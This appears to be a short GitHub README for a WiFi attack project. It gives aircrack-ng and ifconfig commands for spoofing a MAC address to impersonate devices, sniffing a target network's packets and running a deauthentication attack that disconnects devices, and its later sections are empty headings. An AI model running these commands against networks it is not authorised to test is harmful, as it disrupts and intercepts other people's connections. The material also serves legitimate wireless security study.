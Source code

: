 # Projet-WiFi

* Pre-connection attacks, gaining access & post-connection attacks on WEP, WPA & WPA2.

### Prerequisites
0. Linux + wireless adapter.

1. Change the MAC address of your wireless adapter, either for hiding a computer on a network or for allowing it to impersonate another network device.

```
ifconfig wireless_adapter_name down
ifconfig wireless_adapter_name hw ether 00:19:35:89:88:14
ifconfig wireless_adapter_name up
```

2. Change your wireless interface to "Monitor" mode. By default, the mode of wireless devices is set to "Managed", that means our wireless device will only capture packets that have our device's MAC address as the destination MAC.

```
ifconfig wireless_adapter_name down
airmon-ng check kill (kill all interference processes)
iwconfig wireless_adapter_name mode monitor
ifconfig wireless_adapter_name up
iwconfig
```

### Pre-connection attacks
1. Discover networks around you:
```
airodump-ng wireless_adapter_name
```
![Discover networks around you](https://user-images.githubusercontent.com/64968597/134020395-c7a67e4b-d7d0-4a84-a155-8a67fdf449c9.JPG)

2. Sniff packet from a specified network:
```
airodump-ng --bssid target_MAC --channel N (--write file_name) wireless_adapter_name
```

3. Deauthentification attack (disconnect any device from the network):
This attack always work ! The only way around it is to change the MAC address on the target machine.
```
aireplay-ng --deauth time_out -a router_addr -c target_mac_addr wireless_adapter_name
```
 

✔️ 




### Gaining access

### Post-connection attacks

✔️
